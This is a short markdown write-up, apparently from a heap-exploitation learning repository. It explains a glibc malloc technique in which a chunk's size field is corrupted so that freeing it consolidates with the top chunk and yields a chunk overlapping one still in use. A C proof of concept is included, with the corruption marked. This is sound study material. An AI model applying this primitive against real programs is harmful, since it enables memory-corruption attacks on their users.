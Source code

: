 <details>
<summary><strong>Description</strong></summary>
<p>

we will again, be focusing on trying to get malloc to reallocate an existing chunk via consolidation. 

**unlike the other instances**, this will be done via consolidating with the top chunk (only modify chunk size, no need to create fake chunk/main_arena -> no required heap leak)...

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk0, *chunk1, *chunk2, *chunk3;

    chunk0 = malloc(0x420);
    chunk1 = malloc(0x80);

    /*VULNERABILITY*/
    chunk0[-1] = ((0x420 + 0x10) + (0x80 + 0x10)) + 0x1; // expand chunk0's size (encompass first two chunks)
    /*VULNERABILITY*/

    free(chunk0); // trigger consolidation
    chunk2 = malloc(0x420); // can padding this depend on purpose
    chunk3 = malloc(0x80); // is the same with chunk1

    printf("chunk3: %p\n", chunk3);
    printf("chunk1 (still in use): %p\n", chunk1);
}
```

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/malloc/top_consolidation/readme.md

</p>
</details>
